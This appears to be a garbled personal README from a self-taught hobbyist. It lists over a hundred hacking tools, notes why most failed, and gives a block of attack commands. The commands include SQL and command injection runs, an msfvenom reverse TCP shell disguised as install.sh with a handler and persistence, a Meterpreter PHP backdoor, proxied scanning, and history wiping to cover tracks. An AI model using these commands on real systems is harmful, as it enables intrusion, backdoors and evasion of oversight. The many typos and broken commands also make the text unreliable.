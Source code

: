 <h1 align="center">Internet Safety</h1>
B2G: NIST[180025,800171,800172,80053,CSF], KISMS, BNMRMiT, NZISM, GxPEUAnnex11, CCCS, 
GrammLeachBlileyAct, NERCCIPBCSI, PCIDSS, MASTRMG, ACSCISM, APRACPG234, CMMC[Level1-5], 
NCSCCAF, FFIEC, HIPAA, CCNENS, NYDFS23NYCRR500, ENISACybersecurityGuide, ABSCCIGv2,
RBIMasterDirection, FedRAMP, MASNotice655, BCPandDR, CISACyberEssentials, NBCTRMG,
FDA21CFRPart11, CISAWSFBv1.3, ACSCISM, ACSCEssential8, NCSCCloudSecPrinciples.

January 3, 2020. 111 broken apps. : 17 successful hacking apps. No previous knowledge about IT before. Script Kiddie. Prevention: [ ESLint, IDE plugins, and GitHub Actions ], [ MFA, password rotation, and separate browsers ], [ Black list, SPF, DKIM, and DMARC ].

1. Metasploit-framevork 2. Recon-ng 3. BabySploit 4. Dirbuster 5. Grabber 6. BurpSuite 7. Golismero 8. MITRT 9. Tornado 10. Weevely 
11. WPScan 12. theHarvester 13. theMole 14. Yasuo 15. Lazy 16. Katoolin 17. DVWA 18. Corsy 19. Armitage 20. BeEF 21. Eaphammer 
22. Fluxion 23. Gophish 24. Ngrok 25. Pdfbook 26. Sqid 27. Autopsy 28. Binwalk 29. Bulk_extractor 30. Dradis 31. Dmitry 32. Magic-Tree 
33. Facebookosint 34. Facebook-Location 35. Creepy 36. Ferret 37. Hamster-sidejack 38. Vulnhub 39. Airgeddon 40. Airoscript 41. Catphish 
42. Xsser 43. XSpear 44. Crackle 45. Crunch 46. Dawnscanner 47. Wafp 48. Dirb 50. Exploitpack 51. Fierce 52. Fimap 53. Foremost 
54. Galleta 55. Giskismet 56. Httrack 57. OpenVAS  58. Maltego 59. Tor 60. I2P 61. ParamPamPam 62. Photos 63. Rekall 64. Scapy 
65. Scrapy 66. SMTP2GO 67. TheFatRat 68. U3-Pwn 69. Usbris 70. Vega 71. Valnx 72. Volatility 73. W3af 74. W13Scan 75. Webhandler 
76. WebSlayer 77. Websploit 78. WhatBreach 79. XssScan 80. Weeman 81. Spiderfoot 82. Dnmap 83. Automater 84. Arachni 85. Gobuster 
86. ProxyStrike 87. Webshag 88. DotDotPwn 89. Skipfish 90. Cups 91. Spf 92. WhatWeb 93. Pwnat 94. DNSChef 95. Parsero  96. XssStrike  
97. Xplico 98. OSIF 99. DNSRecon 100. Wafw00f 101. Masscan 102. Legion 103. Iodine 104. Cadaver 105. Laudanum 106. Hfind FLS 107.
98. InSpy 108. OSINT-Spy 109. ReconCobra 110. Inquisitor 111. PhoneInfoga 112.

What worked for me with USB boot. 1. Remot3d, 2. IndoXploit, 3. XAttacker, 4. SQLMap, 5. Pappy, 6. Mitmproxy, 7. Arjun, 8. Commix, 9. Autosploit, 10. Witchxtool, 11. Mitmweb, 12. Poly, 13. Parameth, 14. Docem, 15. Chankro, 16. Wafninja, 17. Wafpass
```
apt-get clean && apt-get update && apt-get upgrade -y && apt-get dist-upgrade -y
id && pwd && uname -a && ip -br a
nano /esc/proxychains.com #dynamic_chain
socks4 lp port

openvpn -config vpnbook-usl-tcp443.ovpn
User vpnbook Word 2k3a6rw
cat /dev/null > /root/bash_history && history -c && exit
add-on user-agent switcher
add-on cookie-editor && ghostery

chmod 755 xampp* && /xampp
/opt/lampp/lampp start
cd /opt/lampp 8&& /manager* && localhost
alias xpe//opt/ampp/lampp.stant"
source.bash_allases

Nmap på 148 targets tar 150 minutes.
proxychains nmap -IL ips.ixt-oG - I nikto -host -
localhost/phpmyadmin
CREATE TABLE -
nano /opt/lampp/htdocs/data.php
sqlmap -wizard
perl XAttacker.pl -l /root/ip.txt

~/.pappy/certs/server.pem > firefox
-/mitmproxy > *cert.pem firefox > preferens > ca > view > import > *pem
mitmweb && firefox 127...:8080
lsof -i:8080 && kill-9296
netstat -aon
mitmproxy -w wtf.mitm
nikto -host localhost/data.php -useproxy 127...:8080
pydoc3 mitmproxy.http
curl -T demo.php --url data.php -proxy localhost:8080 -I > PUT

VM > NAT > PF > Host > PHP Cookies
nmap -sV -O 10.0.2.2 -oX nx.xml
nvd.nist.gov | cpe:a:mysql:5.5.5
sploitus.com | CVE-2019-2822
curl --data "name=Daniel&weight-6666" -X POST http://localhost/ajax/ --proxy ::1:80
mitmproxy > e > vim > :wq /tmp/mi22 > ascii, CRLF, request headers

disk -l && umask 000 && touch /tmp/sys...
ls -ld /tmp/sys...
setfacl -b /tmp && getfacl /tmp
grep - acl /boot/config*
apt-get install nfs4-acl-tools-acl
mount | grep -i root && chmod -R a-w /var
chmod u=rwx, g=rwx, o=rwx /var
adduser -home /dragonfly dragonfly
getent group dragonfly   #  /etc/group
usermod -aG sudo dragonfly
gpasswd -a dragonfly 
sudo mv dawn* /dragonfly && ssl -l dragonfly
bundle install && rake install

python3 arjun.py -u http://localhost/ajax/
commix --url="http//localhost/ajax/" -file-write=/root/Pictures/kali.png  --file-dest=uploads/ \
--data="name=Fun&email=fox@gmail.com8submit=submit" -cookie=tvisited=94..23c" --proxy="127..:8080/" 
./parameth.py -u http://localhost/act.php
commix --url="http://localhost/demo.php --data="name=fun&weight=fun" --web-root=/opt/lampp/

pip2 install -r requirements.txt
docker-compose run -fin autosploit # debt/ops/
openssl req -newkey rsa:2048 -nodes -keyout gophish.key -x509 -days 365 -out gophish.crt
pip install beautifulsoup4 requests
apt-get install libcurl4-openssl-dev
make && payloadmask
perl -MCPAN -e'install YAML.::XS'
apt-file update
apt-file search Net/RawlP.pm
apt-get install libnet-rawip-perl
perl witchxtool.pl

poly.py -c php -e b64 -p SHELL -j
docem.py -5 sample_oxml_xxe_mod0/ -pm XSS -pf payloads/xss_all.txt -pt per_document -kt -sx docx
chankro.py --arch 64 --input METER --output back.php
bash Remot3d IndoXploit th3_p4ssw0rd_l0ck3
make && gcc -Wall -Wextra -o drink me.c
cat hello_world.x86_64 | ./drinkme
wafninja.py fuzz -u "http://localhost/action.php?id=FUZZ/" -c "phpsessid=value" -t xss -o out.html
wafpass.py --url http://localhost/action.phpPname=fun8oweigth=fun

scrapy genspider -t crawl exam coinbase.com
scrapy crawl quotes -O q.json -a tag=humor
scrapy shell 'url' file.html text \
response.css("span.text::text").getall()
quotesbot|scrapy toscrape-css -o q.json
scrapy fetch -nolog --headers url
```
msfconsole is a toolkit for embedding payloads to induce reverse shell of binaries. See more in exploit-db.com, searchsploit, msfvenom, setoolkit and u3-pwn. Firewalls are his enemy. Payload: Binary connection in reverse. Exploit: Virus that bring shell if executed. Encoder: Padding zeros in binary tails. Fuzzer: Overflow apps to crash with ICMP packets. LPORT: netcat -l 80 or apache2 start. RPORT: 22 with SSH mitm attack. Commands: use - multi/handler is a listener, show, set, exploit. PostgreSQL inside RDS, msfdb init, db_rebuild_cache. 

metasploitable 3 in virtualbox && msfvenom -p linux/x86/shell/reverse_tcp LHOST=ip LPORT=80 -e ruby/base64 -f bash -n 26 > install.sh
msfconsole, use exploit/multi/handler, set payload linux/x86/shell/reverse_tcp, show options, set LHOST=ip, exploit,, run persistence -h   

1. 746 issues, Gemfile.lock nokogiri. 2. API not worth the cost 3. Minimal function/limited 4. Java
5. Minimal function/limited 6. Java 7-9. Too many dependencies 10. System collapse 11. Gemfile.lock
12. Minimal function 13. Machinery module not exist 14. Syntax error 15. Dependencies ... 16. /apt/sources.list
17. Deletes mysql.socket 18. Syntax error 19. Based on Metasploit 20. Browser is not on the panel, packet storm
21. Hostapd, no pem, certificate problem 22. Mdk3, fake AP. packet storm 23. Config.json gulp. not online
24. API not worth the cost 25. Syntax error 26. /apt/sources.list 27-32. Minimal function 33-34. Syntax error
30. Dependencies 35. System collapse 36-37. Pipe kollaps 38. Too big for virtualbox 39. Dependencies 
40. System collapse 41. Nokogiri, Trollo API for trollop 42. Syntax error 43. Bundle install, Gemfile lock 
44. System collapse 45. Minimal function 46. Bundle install, Gemfile.lock 47. Syntax error 48. Wordlists 
49. unknown (x) 50. Java 51. Minimal function 52. Based on Metaspioit 53. Minimal function 54. unknown (x) 
55. Based on Kismet, drive routine error 56 Too old 57. Certificate error, resembles BeEF / BurpSuite
58. API not worth the cost 59-60. Too old 61. Error in GET 62. AttributeError 63 Virtualenv 
64. Six module not exist 65. No Sphinx module 66. Too old 67. Java 68. unknown (x) 69. Virtualenv 
70. 349 issues, Gemfile.lock 71. AttributeError 72. Too old 73-80. System collapse 81. Too old 
82. Minimal function 83. Based on Metasploit 84. API not worth the cost 85. SSL issues 86. Java 
87. System collapse 88. Syntax error 31. Minimal function 89. MIME db is deprecated 90. Unknown (x) 
91. Too old 92. SSL issues  93. Stdlib.h (c++) not exist 94 TypeError between 'str' och 'bool' 95 Too old  
96. TypeError not supported for signing 97. GeoLite mmdb not exist, HTTP 404 98. Minimal function 
